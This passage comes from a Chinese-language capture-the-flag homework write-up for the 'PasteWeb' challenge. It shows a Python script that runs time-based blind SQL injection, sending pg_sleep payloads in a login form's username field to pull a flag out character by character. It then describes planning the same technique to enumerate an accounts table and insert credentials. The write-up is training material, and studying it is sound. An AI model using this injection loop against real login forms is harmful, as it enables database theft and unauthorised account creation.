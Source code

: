 ```python
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            fl4g from s3cr3t_t4b1e limit 1 offset " + str(offset) + "),1," \
            + str(cnt) + ")='" + flag + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                flag += c
                stop = False
                break
        if stop == True:
            break
        print(flag, cnt)
    if len(flag) == 0:
        break
    offset += 1
```
![](assets/5-10.png)
成功得出 flag 為 ```FLAG{B1inD_SqL_IiIiiNj3cT10n}```
## [HW] PasteWeb (Flag 2)
接下來第二題，題目有提示說記得要利用 SQL injection 為自己 insert 一組帳密
![](assets/6-2.png)
而上一題已經有爆破出 pasteweb_accounts 這個 table name，username 和 password 會存在裡面\
使用與上一題同樣的方式，撰寫腳本爆破出 pasteweb_accounts 這個 table 的所有 column name